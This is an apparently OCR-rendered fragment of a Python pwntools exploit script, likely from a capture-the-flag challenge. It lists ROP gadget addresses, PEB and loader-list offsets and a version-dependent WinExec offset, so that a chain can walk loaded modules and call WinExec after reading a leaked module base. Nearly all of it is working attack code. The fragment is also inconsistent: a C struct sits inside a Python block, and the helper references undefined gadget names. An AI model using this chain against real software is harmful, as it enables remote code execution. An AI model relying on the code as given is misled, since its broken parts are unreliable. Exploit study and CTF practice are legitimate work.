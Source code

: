 ```py


typedef struct _PEB
{
    BOOLEAN InheritedAddressSpace;
    BOOLEAN ReadImageFileExecOptions;
    BOOLEAN BeingDebugged;
    BOOLEAN SpareBool;
    HANDLE Mutant;

    PVOID ImageBaseAddress;
    PPEB_LDR_DATA Ldr;

    // [...] this is a fragment, more elements follow here

} PEB, * PPEB;

#endif //__NTDLL_H__

"""
#print(c.recvline())

tot_head = 0x48 - 0x4 + 0x1000 - 4 + 0x20 - 8 

#19f914 - 19ef24 = 9f0
espadd_offset = 0x9f0 + 0x40 - (15 * 4) + 0x50 - (16 * 4) - 16 - 0x800

add_esp = 0x00001051 # add esp, 0x1000; ret;
pop_ecx = 0x0000101e # pop ecx; ret;

mov_fs0x60_ecx = 0x00001020 # mov dword ptr fs:[0x60], ecx; ret;
mov_edx_fs0x60 = 0x00001058 # mov edx, dword ptr fs:[eax]; ret;
mov_fs_eax = 0x00001000 #: mov eax, dword ptr fs:[0x18]; add eax, ecx; ret;
add_ecx_eax = 0x00001037 #: add ecx, eax; mov eax, ecx; ret;
fs_read_deref_pop_ecx = 0x00001017 # call 0x1000; mov eax, dword ptr [eax]; pop ecx; ret;
deref_pop_ecx = 0x0000101c #: mov eax, dword ptr [eax]; pop ecx; ret;
push_push_call = 0x0000104d #push ecx; push edx; call eax; 
inf_loop = 0x00001060 #: jmp 0x1060;



LDR_off = 0x8 + 4
LoadOrderModuleList_off = 0
MemOrderModuleList_off = 0x8
InitOrderModuleList_off = 0x10
LdrTableOff = 0xC

ModuleBase_off = 0x18
#VERSION DEPENDENT!!!
#WinExec_off = 0x54D20 + 0x10000 - 0x1000 #+ 3
WinExec_off = 0x555F0 + 0x10000 - 0x1000


#side effects: sets esi and ebp to 0
def add_eax_imm32(v, set_esi=0, set_ebp=9):
    return p32(pop_ecx_ret) + p32(v) + p32(add_eax_ecx) + p32(set_esi) + p32(set_ebp)




init_line = c.recvuntil(b":P").decode()
print(init_line)
module_base = int(init_line.split(",")[0].split(" ")[-1], base=16)
```